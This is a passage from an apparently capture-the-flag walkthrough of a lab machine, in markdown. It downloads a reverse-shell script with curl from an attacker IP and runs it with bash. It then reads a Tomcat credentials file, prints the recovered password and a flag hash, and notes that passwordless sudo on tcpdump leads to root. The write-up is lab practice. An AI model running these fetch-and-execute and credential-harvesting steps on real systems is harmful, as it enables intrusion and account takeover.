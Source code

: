 - In the web field, we can make a curl and send the response to another dir
```bash
curl 10.10.15.66 -o /tmp/reverse
ls -l /tmp/reverse
bash /tmp/reverse

```

### Privilege Escalation

```bash
# Searchin files
find / -name tomcat-users.xml 2>/dev/null # save pass 
cat /etc/tomcat9/tomcat-users-.xml
# IT14d6SSP81k

# Example: Checking for SUID binaries
find / -perm -4000 2>/dev/null

# FINd capabilities
getcap -r / 2>/dev/null

# Procesess
ps -faux

# OPen ports
ss -nltp

# Using tomcat pass to enter with ssh
james@10.10.11.59

# listing
user.txt
# 39c18734612d8c5e93ec52a748b94901

```

- IN james user:
```bash
sudo -l
#  ans
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump


```
- We can use tcpdump to be root. Serch in:
